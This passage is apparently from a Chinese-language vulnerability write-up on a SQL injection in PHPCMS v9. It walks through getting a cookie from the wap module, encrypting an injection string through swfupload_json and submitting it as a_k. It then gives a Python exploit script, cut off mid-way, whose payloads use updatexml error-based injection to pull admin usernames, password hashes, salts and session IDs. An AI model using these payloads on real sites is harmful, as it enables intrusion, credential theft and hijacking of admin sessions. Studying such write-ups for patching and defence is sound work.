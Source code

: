不多说很好进行绕过了吧。不过如果我们直接访问访问不到swfupload_json()，这里有一个构造函数如果cookie的_userid或者表单userid_flash的值为空会跳转到主页。所以我们要先获取cookie

        
        $this->db = pc_base::load_model('content_model');
        $this->siteid = isset($_GET['siteid']) && (intval($_GET['siteid']) > 0) ? intval(trim($_GET['siteid'])) : (param::get_cookie('siteid') ? param::get_cookie('siteid') : 1);
        param::set_cookie('siteid',$this->siteid);    
        $this->wap_site = getcache('wap_site','wap');
        $this->types = getcache('wap_type','wap');
        $this->wap = $this->wap_site[$this->siteid];
        define('WAP_SITEURL', $this->wap['domain'] ? $this->wap['domain'].'index.php?' : APP_PATH.'index.php?m=wap&siteid='.$this->siteid);
        if($this->wap['status']!=1) exit(L('wap_close_status'));
可以看到set_cookie函数把value代入cookie满足条件。

##### 漏洞利用

第一步：访问index.php?m=wap 获取userid_flash的值(wap模块开不开启都能获取)

![](https://i.imgur.com/Syrn7AV.png)

第二步:

![](https://i.imgur.com/WePRdNn.png)

可以看到利用swfupload_json把src=%26id%3d%2*7and%20updatexml(1,concat(1,(user())),1)%23%26m%3d1%26modelid%3d1%26catid%3d1%26f%3d1 进行加密处理并回显出来。

第三步:

![](https://i.imgur.com/U8c7xoO.png)

用GET方法提交赋予加密payload的$a_k，注入成功。

##### EXP

	import requests
	import urllib
	import re

	def poc(url):
		step1 = '{}/index.php?m=wap&a=index&siteid=1'.format(url)
		req = requests.get(url=step1)
		for i in req.cookies:
			if i.name[-7:] == '_siteid':
				userid_flash = i.value
			else:
				print('Step1 is error')

		#payload ='&id=%*27 and updatexml(1,concat(1,(select concat(username,0x3a,encrypt) from v9_admin)),1)%23&modelid=1&catid=1&m=1&f='
		#payload="&id=%*27 and updatexml(1,concat(1,(select concat(0x3a,password,0x3a) from v9_admin)),1)%23&modelid=1&catid=1&m=1&f="
		#payload="&id=%*27 and updatexml(1,concat(1,(select concat(0x706f6374657374,username,0x23,password,0x3a,encrypt,0x706f6374657374) from v9_admin)),1)%23&modelid=1&catid=1&m=1&f="
		#payload ='&id=%*27 and updatexml(1,concat(1,(select concat(sessionid) from v9_session)),1)%23&modelid=1&catid=1&m=1&f='
	